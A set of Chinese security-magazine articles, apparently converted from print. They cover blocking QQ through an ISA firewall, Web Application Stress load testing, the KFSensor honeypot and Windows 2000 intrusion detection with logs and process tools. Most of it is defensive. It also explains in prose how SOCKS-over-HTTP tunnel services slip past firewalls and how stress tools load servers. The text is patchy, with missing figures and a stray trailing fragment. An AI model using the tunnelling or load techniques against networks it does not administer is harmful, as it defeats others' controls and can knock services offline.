

在此相应规则，选择“Configure HTTP”；切换到“Methods”标签，选择“Block specified methods（allow all others）”项，然后点击“Add”按钮；在窗口的“Method”中输入 connect 即可（图 4）。

#### 终极禁用手段

即使你禁止了上面 QQ 所用的一切登录方式，但是你所做的仍然可能只是竹篮打水一场空。因为客户端可以安装这样一种程序，这种程序本身可以作为一个 Socks5 服务器（此时需要把 QQ 的登录方式设置为使用此 Socks5 代理服务器），并且它能够把 Socks 数据包转化成 HTTP 数据包，然后把转化后的数据包发送到外部一个开放 80 端口的 HTTP 服务器上，并在这个服务器上把收到的数据包还原成 Socks 数据包，然后转发至目标服务器（这里是 QQ 的登录服务器），目标服务器则把响应信息通过原路返回。由于外出的数据包是标准的 HTTP 数据包（由于不是 HTTP 代理，所以没有 connect 语句），所以 ISA 是允许它外出的。对于这种登录方式，可以采取下面的方法进行处理。

##### 1．禁止对相应 HTTP 服务器的访问

由于这种程序需要在外部提供额外的接收服务器，导致程序运行的成本较高，所以这种程序很少，或者都是收费服务，所以这种程序一出来，就会很快流行，当然也就“出名”了，正所谓人怕出名猪怕壮，枪打出头鸟，此时只要封掉这些程序使用的外部服务器就可以了。比如国内现在就有一个叫“通通通”的程序提供这种免费服务，它的原理就与上面所讲的一样，通过它几乎可以让一切内网网络程序突破防火墙的限制。要禁止“通通通”，只要封掉其提供服务的 HTTP 服务器就行了，这里是 service.tongtongtong.com、wt.tongtongtong.com 和 dx.tongtongtong.com 三个服务器，禁止方法参照上面所说的即可。

##### 2．扫描内网中的 Socks 服务器

采用第一种方法不可避免地会漏掉一些服务提供者，所以可以采用扫描内网中的 1080、1813、3128 端口的方法来发现使用 Socks5 服务器的人，常用的端口扫描工具有 superscan，但是如果使用者更改了程序的服务端口这种方法又难行通了，并且这种工作还必须经常做。如有必要，可以把它列为一天的工作内容之一。

##### 3．对 HTTP 数据包进行内容检查

上面都是治标不治本的方法，最根本的方法应该对 HTTP 数据包进行内容检查，因为这种 HTTP 数据包中一定会有与 QQ 相关的数据在里面，比如通常都会有相关登录服务器的数据，只要检查到有这些内容，就可以 block 掉。不过这种内容检查的功能在 ISA 2000 中是没有内置的，在 ISA 2004 中集成了这项功能，它可以禁止含有匹配字符的 HTTP 内容通过，比如禁止掉含有 tencent.com 的 HTTP 内容。这些内容可以位于 request URL、request headers、request body、response headers 和 response body 区域中，但这种方法有些副作用，最明显的就是会影响上网的响应速度，但它仍不失为一种较好的方法。不过如果 HTTP 数据包是加密的，即 HTTPS 数据包，上述方法也将失效。这种方法在图 4 窗口的 Signatures 标签中进行设置（图 5）。



图 5

上面从防火墙的角度讨论了怎样来禁止内网用户使用 QQ，其实我们还可以从另外一个方面来考虑，就是让客户端不能安装 QQ，这样不就禁止 QQ 了吗？如果你的网络是以域的方式组织的，并且客户端用户只有 users 组的权限（默认情况下应该这样），文件系统也是 NTFS 格式，这样客户端是没有安装软件的权限的，自然也就不存在使用 QQ 的问题了。另外，本文虽然是对 QQ 的讨论，但禁止原理对其他即时通信软件或网络游戏同样适用。

> **编后。**
>
> 看了上面的文章，不少网管都会眉开颜笑：问题终于有了解决办法，可以向老板圆满交差了。不过，这是有了硬件防火墙的办法，如果只有软件防火墙怎么办呢？对此感兴趣的读者记得去我们的论坛（www.hacker.com.cn/newbbs）；大家一起讨论解决办法啦。

### WebStress 实战操作

文／图 demonalex

刘流：通常情况下，在为数不多的几台机器连接网站时，服务器的响应速度是比较理想的，但随着网站的访问量越来越大，服务器的性能就有可能会大大下降。我们利用 WebStress 可以模拟指定人数来访问服务器，查看 Web 服务器在压力测试下的响应时间、传输速率等相关数据，以便对服务器做出相应的优化。想了解 Server 的品质表现吗？想知道任何人数在同一时间内进站时 Server 的反应吗？想简单地只要敲几下键盘看出 Server 在压力测试下的评比吗？一起来吧！

看完 SQL 的《用 Web 压力测试工具模拟请求服务的 DOS 攻击》一文，觉得意犹未尽，为摸清软件的底细，特为此做了一段时间的实验（感谢很多网友途中为此“捐”出自己的服务器），写了一篇文章，希望能补充 SQL 在该文中没有点明的东西。

#### 准备工作

Web 压力测试（WebStress）一直以来都是很多 IDC 评测人员、网络管理员以及网络安全专家针对服务器性能的重点考察和评价的对象。今天小生有幸为某位网友的虚拟主机做个 Web 压力测试（PS：压力测试通常安排在渗透测试之后）。

参考资料：《用 Web 压力测试工具模拟请求服务的 DOS 攻击》、《Web 压力测试指南》。

实验环境：被测试者（服务端）：Win2000 Advance Server + IIS + 光纤带宽；

测试者（客户端）：Win2000 Professional + MS Web Application Stress + 中国电信 ADSL。

实验目的：测试与分析 Web 服务器所提供的 HTTP 服务的综合稳定性。

测试计划：测试类型基准（baseline），静态测试案例（HTM、JPG）。

测试工具：单客户端、测试案例库、客户端程序。

分析手段：采用对比分析。

测试对象：企业级全能虚拟主机。

对比对象：“中资源”虚拟主机（dark2s.net）。

测试方案条件数值指标：

| URL | 线程 | 持续时间 | 是否使用随机延迟 | 虚拟扼杀带宽 | 其他数值 |
|---|---:|---|---|---|---|
| 随机遍历地址 | 20 | 5 分钟 | 200-400（毫秒） | 56K MODEM（44k） | default |

#### 测试过程

测试流程：使用 Web Application Stress（下称 WAS）生成两个新的压力测试脚本 -> 使用 RECORD 方式记录其 URL -> 配置条件测试指标 -> 测试 -> 生成 REPORT -> 以报表方式对比分析其结果。

具体操作：客户端（localhost）打开 MS Web Application Stress 主程序的菜单栏，选择：“Scripts” -> “Create” -> “Record”，选“Record Delay between request”，按“Next”（图 1），“Finish”后，如图 2 所示。



图 1

图2

图6

接下来在弹出的浏览器的地址栏中填入你所要测试的 Web 服务器地址，随机浏览几个页面，模拟正常浏览时随机使用 Web 的一些功能等。最后关闭浏览器，在 WAS 点击“Stop Recording”按钮回到主界面，在主脚本显示界面的下方你会看到一个 URL 行为列表脚本（包括行为、URL 地址、组、延迟值），最后在主脚本显示界面的上方的“Server”输入栏中填入需要测试的主机地址（图3）。

图3

完成上述步骤后，点击脚本列表下的“Settings”进入设置显示界面，并填入相关参数指标（图4）。最后回到主显示界面，点击工具栏的“Run Script”进入压力测试状态（图5）。

图4

图5

使用 Active Ports 查看其连接情况，从图6中不难发现，WAS 现在使用一个进程内的多线程针对主机进行模拟连接测试。

测试完成后点击工具栏的“Reports”按钮查看其测试报告。测试报告以树状形式分布，根以被测试服务器划分，子根为测试日期，其下的分枝部分为各类数值的分类指标值。我们要获取整个被测试服务器的宏观数值指标，只需要点击测试日期“子根”就可以了（图7）。

图7

使用与上述测试相同的步骤和参数指标“如法炮制”剩下的那台待测服务器（因为时间的关系，小生已经预先把做好的截图放上来了，图8）。

图8

最后剩下的工作就是数据规划与对比分析了。开始时还以为需要手工做数据规划这些细腻的整理工作（小生可是出了名的老眼昏花哦！），后来才发现 WAS 是带有内置数据库的（微软可不是省油的灯）。使用 MS Office 的附属工具 Access 打开 WAS 目录下的 WAS.mdb 数据库文件，项目中所有的测试条件数值指标与测试得出的数据都会以“表”的方式排布在你的面前。只需找到所需要的属性类表并轻轻一点，就一目了然了（图9）。

图9

接下来将此 `.mdb` 数据库另外保存起来，用作该次测试的初步数据分析蓝本；其后进行对比分析，只需再使用 Access 打开原来保存好的那个 `.mdb` 数据库，并通过“子表”链接的方式把需要分析的数据类表与“Report”类表链接起来，就能够轻易地进行指标数据的对比分析了（图10）。

当然，如果你有什么特别需要的话，也可以结合 Word、Excel 等工具做出各式各样的分析报表提交上去。

说一点对大家使用 WAS 的小建议：安装 WAS 后，每次 Windows 在启动时都会启动一个名为“WebTool”（进程：`webtool.exe`）的服务，建议各位到“管理工具→服务”，把这个服务调节为“手动”，并在每次使用 WAS 后将该服务停止，以免长期占用阁下的系统资源。

**注：**具体测试指标和程序请按照文章名查找本期光盘！

## 附录

- Web 压力测试的基本指标列表：

- **Number of hits**：测试间隔内虚拟用户点击页面的总次数；
- **Requests per second**：每秒客户端的请求次数；
- **Threads**：线程数，即虚拟用户并发量；
- **Socket Errors Connect**：Socket 错误连接次数；
- **Socket Errors Send**：Socket 错误发送次数；
- **TTFB Avg**：从第一个请求发出到测试工具接收到服务器应答数据的第一个字节之间的平均时间；
- **TTLB Avg**：从第一个请求发出到测试工具接收到服务器应答数据的最后一个字节之间的平均时间。

根据以上数据，可以从以下几个方面分析应用程序性能，生成相应报表：

- **Number of hits vs. Users**：随着虚拟用户的增加，服务器在规定时间内所能处理的总点击数；
- **Requests per second vs. Users**：随着虚拟用户的增加，服务器在规定时间内所能处理的每秒请求数；
- **Errors vs. Time**：随着模拟访问时间的延续，出现错误的数量；
- **Errors vs. Users**：随着虚拟用户的增加，出现错误的数量；
- **Performance Distribution vs. Users**：针对虚拟用户数的应用性能分布情况，包括服务器的内存、CPU 使用情况等；
- **Performance vs. Users**：随着虚拟用户的变化，应用性能的变化；
- 测试程序 WAS 可以到本人的主页 `http://demonalex.dark2s.org` 下载。

### 总结

本文写到此处，这次简单的 Web 压力测试项目就算告一段落了。当然，现实生活中的 Web 压力测试并不是那么简单的（也许现实生活中的 WebStress 测试会做到让你发疯）。最后让我们总结一下整个测试的基本步骤。

- 1. 了解测试所使用的软件。这是测试前的准备工作，任何一个项目在开始测试之前，都应对它有个全面的了解，如这个软件是干什么的，其功能和性能主要体现在哪几个方面，有什么特点，如何才能体现这些特点等等。
- 2. 拟定测试计划。测试计划就是定义一个测试项目的过程，以便能够正确地定量和控制测试。
- 3. 实施测试的过程。遵照测试计划，在各种条件下运行事先设计的测试脚本，记录 Web 服务器及相关客户端的性能参数。
- 4. 分析测试结果。测试会收集到大量的数据，根据这些数据就可以帮助分析 Web 应用程序的性能。
- 5. 说一点对大家使用 WAS 的小建议：安装 WAS 后，每次 Windows 在启动时都会启动一个名为……

文／图 网络游侠

刘流：看到“骇客克星”是不是感到很奇怪？骇客从来都是在网络上来无影去无踪的，难道他们也有害怕的东西？事实确实如此，个中缘由，且听我细细道来。

## IDS+Honeypot = 骇客克星

一般来说，像我这样的菜鸟还有众多的 MM，对“骇客”这个称呼有种发自内心的崇拜感和惧怕感。为什么呢？在一般人眼里，骇客是无所不能的。在强大的对手面前，我们真的就束手无策吗？我一直固执地这么认为，直到我遇到 KFSensor！

什么是 KFSensor 呢？用该软件帮助文档里面的一句话说就是：KFSensor is a honeypot based Intrusion Detection System (IDS)，也就是一款基于入侵检测系统的蜜罐。

菜鸟要问了：什么是入侵检测（IDS）呢？IDS 是一种防御技术，IDS 主要通过监控网络和系统状态、行为以及系统资源的使用情况，来检测内部账户的越权使用和外部的入侵企图。想想吧，有了入侵检测，你就可以完全地监控你的网络。基于主机的 IDS 可以凭靠各种日志获取骇客的蛛丝马迹，基于网络的 IDS 更可以对出入网络的每一个数据包进行捕获、分析。

菜鸟又要问了：蜜罐（Honeypot）？听名字比较诱人啊，好像比较好吃！蜜罐是一种专门为“诱拐”骇客设计的运行在网络上的系统。一般来说，蜜罐是一套包含有漏洞的系统或者模拟有漏洞系统的程序。比如我们可以找一台电脑，装上没有任何补丁的 Windows 2000 Server，放一套千疮百孔的 ASP 程序，当然要没有重要数据的了。请相信，这样的机器放到网上是很受人“欢迎”的。然后呢？你就可以通过一些预先设置的程序捕获骇客的一举一动。比如你可以设置一个登录脚本，捕获入侵者的用户名、密码、IP 地址，可以装一个键盘记录软件记录骇客的每一次击键，可以……是不是有些兴奋了？Honeypot 实际上是 IDS 的一个分支，一个非常有发展前途的分支。

#### KFSensor 介绍

KFSensor 是一款基于 IDS 的 Honeypot，所以自然兼有 IDS 和 Honeypot 的特点，我们以 KFSensor 2.1.4 为例进行讲解。软件可以在 www.kfsensor.com 下载得到，不过下载的时候要注册才显示下载地址，界面也是英文，比较繁琐。也可以在我的小站 www.xijing.org 下载得到它的最新版本（广告^-^）。因为这是一款商业软件，我们下载的体验版只能免费使用 14 天，不过对我们学习来说这也是够了。

软件安装不说了，安装后重启会有一个配置向导，基本上是一路回车的，如果有疑问可以随时点击帮助获得技术支持。配置好之后让我们先来目睹一下 KFSensor 的“芳容”（图1）。见到这个界面的时候，是不是感觉很清爽？

千万要摒弃“功能强大就一定配置繁琐”的想法。看看菜单栏，只有 File、View、Scenario、Settings 和 Help 几项。说实话，光看菜单真的有点感觉 KFSensor 不中用。

关于 File，我实在不想多说，无非是导数据、开关软件，即使比我还菜的也能看明白。只有一点需要注意，就是你可以选择把该软件作为系统服务来启动（Install As System Service）。

View 栏，主要是设置显示的方式，比如设置是否显示某项监控内容、按照时间显示事件等。有一项比较有特色，就是按照 Ports 显示或者按照 Visitors 显示。如果选择前者，会看到图1那样子的界面，把所有的事件按照属于 TCP 协议或者 UDP 协议来分类。如果选择按照 Visitors 显示，就是图2的样子。

所有的事件都按照 Visitor 的 IP 分类了，这样可以精确地查询来自某个主机的威胁，保证每次入侵机器进行的尝试操作都会记录下来。图2中显示的就是来自 IP 地址 192.168.10.168、主机名 Johnathan 的主机对服务器扫描的情况。

KFSensor 还会按照事件的严重程度进行分类：Low、Medium 和 High，分别代表低度威胁、中度威胁和高度威胁，并且分别用颜色为灰色、黄绿色、红色的报警喇叭标注，很直观。

菜单栏第 3 项是 Scenario，下面一共有六项，分别是：

- 转换 Scenario
- 编辑 Scenario
- 编辑激活 Scenarios
- 编辑激活规则
- 编辑激活 Proxy 规则
- 编辑简单服务

在 Edit Scenarios 中，可以修改 Scenarios 的名称、IP 地址以及更多的设置（图3）。双击“IIS”，我们可以把 IIS 的 80 端口的 Listen 状态改成 False 或者 True，相当方便。我们也可以选择“Change All”来改变所有可以改变的项目（图4）。

同时还可以选择绑定的地址，之后点击后面的“Change”，也可以一次设置端口监听模式是否是 Active，可以设置这个事件的严重级别。当然也可以添加一个监听的端口（图5），比如添加针对冰河的 7626 端口。

Edit Active Scenario、Edit Active Rules 和 Edit Active Proxy Rules 和上面的过程差不多，就不多说了，要不该有“进行半重复性写作，浪费读者时间并骗取老编稿费”的嫌疑了。

在 Edit Sim Servers 里面，我们可以看到设置服务的名称、类型、端口和描述（图6）。

我们看一下最熟悉的 IIS（图7），可以设置的项目很多，设置也简单，但是功能却绝对强大，甚至可以在这里面设置 IIS 的路径、定义 IIS 首页文件名！

再看一下 Linux 的 SendMail（图8），怎么样，功能绝对强大吧？想想，如果把图8里面的 Banner 修改成“Qmail”，那么骇客会不会感到极度郁闷？

在 Settings 里面，我们可以设置一些关于 KFSensor 的东西，比如拒绝服务攻击、Email 报警等等。无非填写几个数字，设置一下级别，填写一下地址，让人充分体验到了“强大易用”的理念。如果你的检测要求比较高，甚至可以设置把日志写入到 SQL 数据库中，当然前提是你必须安装 SQL Server 或者 MySQL。

#### 应用实例

上面啰啰嗦嗦地说了这么多基础性的东西，下面我们就来实际应用一下 KFSensor，相信你一定会为它强大的功能所叹服（其实游侠也同样为其 831.13 欧元或 990.00 美元的售价叹服——比 Windows 还贵哦）。

配置好 KFSensor 之后，打开 Active Ports 查看一下本机的活动端口，如果是图9所示的样子，就证明 KFSensor 开始工作了：

确认 KFSensor 开始工作之后，在命令提示符中敲上“telnet 127.0.0.1”回车，耳边立刻传来“嘀——！”的报警声；同时任务栏的 KFSensor 图标开始闪烁，是表示最高级别的红色警报（默认的对 telnet 报警级别是 High，所以是红色警报）。同时在程序主窗口中新增一条记录，双击记录可以查看其详细内容（图10）。

看到了吗？事件开始、结束的时间、类型（Connection）、访问者 IP、端口（2644）、域名（xjedu）、监控名称（Telnet）、协议、收到的数据、响应数据……一应俱全。想想，如果你充当了一次骇客，久攻不下的时候，想到对方是用 KFSensor 这个只有 1M 的软件耍你，并且你的一举一动都在人家眼皮底下的时候……是不是很恐怖、很无奈啊？

我们用 FTP 连接服务器，用户名 guest，密码 guest 进入，然后 bye。之后我们看看 KFSensor 的记录（图11），Received 中明确记录了你输入的数据。Response 中呢？也许你看不到全部的数据，那么就点一下“Expand”（图12）。能说什么呢？我们刚才在命令提示行操作的一切都被记录在案，想抵赖都没有理由啊！

我们再用 X-Scan 2.3 扫描一下机器看看结果如何。扫描的时候，你会发现很多和平时不一样的地方，为什么？难道我写这些东西白忙活啊，呵呵。当然，扫描一开始，KFSensor 就开始用“让骇客感到恐怖”的警报提示你了，还有“灯光特效”，如果设置了邮件报警，还可以发送报警邮件到你的电子邮箱。

你会发现，X-Scan 每扫描一个端口，KFSensor 就会立刻进行实时记录（图13）。这样，你还会担心你的服务器变成人家的肉鸡而自己还感觉良好吗？我想，有了 KFSensor，管理员朋友们可以蒙头睡个好觉了吧（习惯 hack 人家的不要拿砖看着我啊）。

#### 结束语

相对于其他安全技术，入侵检测的路还刚刚开始，它作为一门主动防御技术，是网络安全的重要组成部分。希望本文能对那些希望研究入侵检测技术的朋友有些启发。

编者按：目前服务器一般采用 Windows、Linux 或者 Unix 作为自身操作系统，而在中国采用 Win2000 作服务器的不在少数，面对网络上众多的黑客攻击行为，作为一名网络管理员，如何安全地配置我们的 Win2000 服务器显得尤为重要。

- 难度等级：中级
- 适合对象：网络管理员
- 前置知识：网络管理基础

文／Guest

## Windows 2000 Server

## 简单安全入侵检测

> **概述：** 根据美国国防部开发的计算机安全标准——可信任计算机标准评价准则（Trusted Computer Standard Evaluation Criteria），即橙皮书，UNIX 和 WinNT 都属于 C2 级的安全级别。但 Windows 不像 UNIX 那样，系统的漏洞比较少，默认安装本来就比较安全。Windows 2000 Server 如果是默认安装且没有安装补丁程序和进行适当的安全配置时，则谈不上是 C2 级，而是一个漏洞百出的服务器操作系统。

有资料统计，经过精心配置的 Windows 2000 Server 服务器可以防御 90% 以上的入侵和渗透。但是，系统安全是一个整体，是一个连续的过程，随着新漏洞的出现和服务器应用的变化，系统的安全状况也在不断变化着；同时由于攻防本来就是矛盾的统一体，因此，再聪明再厉害的系统管理员也不能保证一台服务器长时间绝对不被入侵。所以，安全配置服务器并不是安全工作的结束，相反却是漫长乏味的安全工作的开始。本文我们将初步探讨一些 Windows 2000 Server 服务器系统入侵检测的简单技巧，希望能对你有所帮助。

#### 检测分类

本文中所说的入侵检测指的是利用 Win2000 Server 自身的功能、管理员自己编写的一些脚本和软件、一些经常看到并且使用的第三方软件和防火墙进行的检测。专业的入侵监测系统（IDS）技巧不在本文的讨论范围之内。

现在假定：我们有一台经过了初步安全配置的 Win2000 Server 服务器，这种情况下，大部分的入侵者将被拒之门外。注意这里我说的是大部分，而不是全部。经过初步安全配置的服务器虽然可以将绝大多数的入侵者拒之门外，但遇到了真正的高手，还是不堪一击的。而且，在漏洞的发现与补丁的发布之前往往有一段时间，任何知道该漏洞资料的人都可以乘虚而入，这时，入侵检测技术就显得非常重要。

操作系统的安全入侵检测主要还是根据应用来进行，提供了相应的服务就应该有相应的检测分析系统来进行保护。对于一台主机来说，主要应该注意以下几个方面的问题：

## 1. 基于系统日志的检测

Windows 2000 Server 自带了相当强大的安全日志系统，从用户登录到特权的使用都有非常详细的记录。可惜的是，默认安装下安全审核是关闭的，以至于一些主机被黑后根本没法追踪入侵者。所以，我们要打开系统的安全审核策略。步骤：管理工具→本地安全策略→本地策略→审核策略中打开我们需要的审核。一般来说，登录事件与账户管理是我们最关心的事件。同时打开成功和失败审核非常必要，其他的审核也要打开失败审核，这样可以使得入侵者一不小心就会露出马脚。

除了安全日志，计算机管理→系统工具→事件查看器里的系统日志和应用程序日志也是非常好的辅助监测工具。一般来说，入侵者除了在安全日志中留下痕迹，在系统和应用程序日志中也会留下蛛丝马迹。作为系统管理员，要有不放过任何异常的态度，这样入侵者就很难隐藏他们的行踪。

但是，如果入侵者稍微懂一点安全意识和自我保护意识，而且是以 Administrator 权限进入的话，他退出系统时候都会删除这些日志的。因此，只依靠查看系统日志并不是一种很好的方法。

## 2. 文件访问日志与关键文件保护

除了系统默认的安全审核外，对于关键的文件，我们还要加设文件访问日志，记录对它们的访问。文件访问有很多的选项：访问、修改、执行、新建、属性更改等。一般来说，注意文件的访问和修改就能起到很好的监视作用。例如，如果我们监视了系统目录的修改、创建，甚至部分重要文件的访问（例如 cmd.exe、net.exe、system32 目录），那么，入侵者就很难安放后门而不引起我们的注意。要注意的是，监视的关键文件和项目不能太多，否则不仅增加系统负担，还会扰乱日常的日志监测工作。

关键文件不仅仅指的是系统文件，还包括有可能对系统管理员和其他用户构成危害的任何文件，例如系统管理员的配置、桌面文件等等，这些都是有可能用来窃取系统管理员资料或者密码的。

我们利用 Windows 2000 下 NTFS 格式的磁盘分区可以对一些重要的文件设置访问权限，在“文件→属性→安全”里进行权限设置。这样，当运行此程序时就会出现拒绝访问。我们可以利用这个方法对部分重要文件如 cmd.exe、net.exe 进行设置，使入侵者不能进行一些操作，特别是当入侵者只得到一个远程 Shell 的时候，没有设置文件访问权限时可以正常访问，如下所示。

```text
C:\>fport

FPort v2.0 - TCP/IP Process to Port Mapper
Copyright 2000 by Foundstone, Inc.
http://www.foundstone.com/
```

| Pid | Process  | Port  | Proto | Path                              |
|-----|----------|-------|-------|-----------------------------------|
| 464 | svchost  | -> 135  | TCP   | C:\WINNT\system32\svchost.exe     |
| 8   | System   | -> 445  | TCP   |                                   |
| 464 | svchost  | -> 1568 | TCP   | C:\WINNT\system32\svchost.exe     |
| 8   | System   | -> 445  | UDP   |                                   |
| 232 | lsass    | -> 500  | UDP   | C:\WINNT\system32\lsass.exe       |
| 848 | Explorer | -> 2226 | UDP   | C:\WINNT\Explorer.EXE             |
| 1636 | QQ      | -> 4000 | UDP   | D:\tencent\QQ.exe                 |
| 1636 | QQ      | -> 6000 | UDP   | D:\tencent\QQ.exe                 |

当把 Fport.exe 的 Everyone 完全控制权限设置为拒绝的时候就出现下面的情况了。

```text
C:\>fport
拒绝访问。
```

##### 3．基于系统进程的监控

入侵者在进入一个系统后，绝大多数会给自己留一个后门以方便再次进入系统。据统计，90% 以上流行的木马和后门都是以进程的形式存在的（也有以其他形式存在的木马），运行后会自动打开一个端口进行监听，等待入侵者来连接，用比较专业一点的术语来讲就是 C/S 模式。

因此，进程监控技术是追踪木马后门的另一个有力武器。作为一名系统管理员，了解系统当前运行的每个进程是非常重要的，做一份每台服务器运行进程的列表非常必要，能帮助管理员一眼就发现入侵进程，异常的用户进程或者异常的资源占用都有可能是非法进程。除了进程外，DLL 也是危险的东西，例如把原本是 exe 类型的木马改写为 dll 后，使用 rundll32 运行就比较具有迷惑性。

我们使用第三方工具可以很容易地查看系统当前运行着哪些进程。www.sysinternals.com 公司的系统管理工具包（目前的新版本是 PsTools v1.97）里的 PsList.exe 和 PsKill.exe 可以很方便地做到进程的查看和终止。

但是，此方法也有自身的缺点，那就是入侵者利用第三方工具把自己后门的进程隐藏，或者把后门进程插入到系统进程里，这样看起来和普通的进程是没有什么区别的。例如，最近比较流行的内核级后门 hxdef100 就可以做到隐藏文件、进程、服务和端口。这样，当入侵者把一些东西隐藏了之后，即使管理员发现被入侵了一时也无能为力。

下面是一个简单的例子：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\Pstools>pslist

PsList v1.23 - Process Information Lister
Copyright (C) 1999-2002 Mark Russinovich
Sysinternals - www.sysinternals.com

Process information for SERVER:

Name      Pid  Pri  Thd  Hnd   Mem    User Time       Kernel Time     Elapsed Time
Idle      0    0    1    0     16     0:00:00.000
System    8    8    31   443   276    0:00:00.000
smss      136  11   6    32    584    0:00:00.060
csrss     168  13   11   308   3144   0:00:02.553
winlogon  188  13   17   367   2128   0:00:01...
services  216  9    31   472   5832   0:00:16.433
lsass     228  9    15   251   1352   0:00:00.941
svchost   468  8    10   248   3980   0:00:00.811
stisvc    532  8    4    56    1708   0:00:00.080
svchost   608  8    15   230   5976   0:00:00.891
WinMgmt   640  8    5    119   800    0:00:13.158
Explorer  820  8    19   112   561976 0:01:13.966   0:02:33.470     5:24:01.195
internat  924  8    2    35    2196   0:00:00.711   0:00:04.155     5:23:53.784
conime    976  8    2    21    1456   0:00:00.530   0:00:00.510     5:23:41.576
QQ        2144 8    8    647   10252  0:01:04.102   0:01:15.758     1:08:35.788
iexplore  2152 8    1    21    1328   0:00:00.030   0:00:00.090     0:28:07.536
cmd       2548 8    2    32    1480   0:00:00.040   0:00:00.070     0:00:09.053
pslist    2356 13   3    369   1904   0:00:00.050   0:00:00.130     0:00:00.350

C:\Pstools>pskill 2144

PsKill v1.03 - local and remote process killer
Copyright (C) 2000 Mark Russinovich
http://www.sysinternals.com
Process 2144 killed.
```

```text
* pKiWaitOutListHead_addr 0x80482808
